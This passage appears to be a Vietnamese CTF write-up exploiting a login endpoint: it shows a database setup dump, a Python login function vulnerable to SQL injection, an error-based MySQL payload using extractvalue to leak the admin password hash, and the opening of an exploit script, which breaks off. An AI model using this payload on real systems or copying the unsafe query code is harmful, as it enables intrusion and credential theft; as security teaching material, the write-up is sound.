 ```note
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('Andromeda', 'Vega', 'Spiral Arm Salutations', 'communication.mp3');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('Proxima Centauri', 'Trappist-1', 'Lone Star Linkup', 'communication.mp3');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('TRAPPIST-1h', 'Kepler-438b', 'Small World Symposium', 'communication.mp3');
INSERT INTO orbital.communication (source, destination, name, downloadable) VALUES ('Winky', 'Boop', 'Jelly World Japes', 'communication.mp3');
CREATE USER 'user'@'localhost' IDENTIFIED BY 'M@k3l@R!d3s$';
GRANT SELECT ON orbital.users TO 'user'@'localhost';
GRANT SELECT ON orbital.communication TO 'user'@'localhost';
FLUSH PRIVILEGES;
EOF
```
nó có giá trị username là <b>admin</b> với password được gen mã md5 với 32 byte và ở file <b>database.js</b><br>
```py
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```
ở đây chúng ta thấy rõ ràng giá trị username không được sử dụng prepare để đảm bảo đầu vào vậy nên nó dễ bị sqlinjection sau khi truy vấn username và password nó sẽ sử dụng hàm passwordVerify để kiểm tra password của chúng ta sau đó sử dụng createJWT để tạo token chúng ta với username tương ứng chúng ta cùng xem thử qua chức năng <b>passwordVerify</b> xử lí : <br>
```py
def passwordVerify(hashPassword, password):
    md5Hash = hashlib.md5(password.encode())

    if md5Hash.hexdigest() == hashPassword: return True
    else: return False
```
hàm này nó sẽ sử dụng so sánh mã hash md5 của mình đưa vào có giống với của mã hash hệ thống nếu đúng trả về thành công và ngược lại nói như vậy chúng ta có thể thử sqlinjection ở username tôi thử đưa tải trọng gây ra lỗi "\"" : <br>
<img width="953" height="564" alt="image" src="https://github.com/user-attachments/assets/8fab277e-edff-4f00-b986-90f1d7bc8adb" /><br>
như vậy chúng ta có thể xác định được chúng ta có thể sử dụng MYSQL Error Based để khai thác và ở <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based---extractvalue-function">payloadallthething</a> chúng ta có thể lấy tải trọng để thử leak password dữ liệu admin và sau dây tải trọng tôi đưa vào: <br>
```note
\" OR extractvalue(1,concat(0x7e,(SELECT password FROM users WHERE username='admin'),0x7e)) -- 
```
<img width="950" height="564" alt="image" src="https://github.com/user-attachments/assets/9371f7fb-4032-4661-9f5a-4135444e0eb1" /><br>
như ở hình ảnh chúng tôi có thể leak được mã hash tương ứng với admin nhưng nó thiếu kí tự chúng ta cùng lùi lại 1 bước ở phần đầu tôi có nói admin nó genpass ra với 32 kí tự hash đúng không vậy bây giờ tôi sẽ viết tập lệnh python để leak hết mã hash của nó ra.<br>
```py
import requests
import re

BASE_URL = "http://127.0.0.1:1337/api/login"
HEADER = {
    "Content-Type": "application/json",
```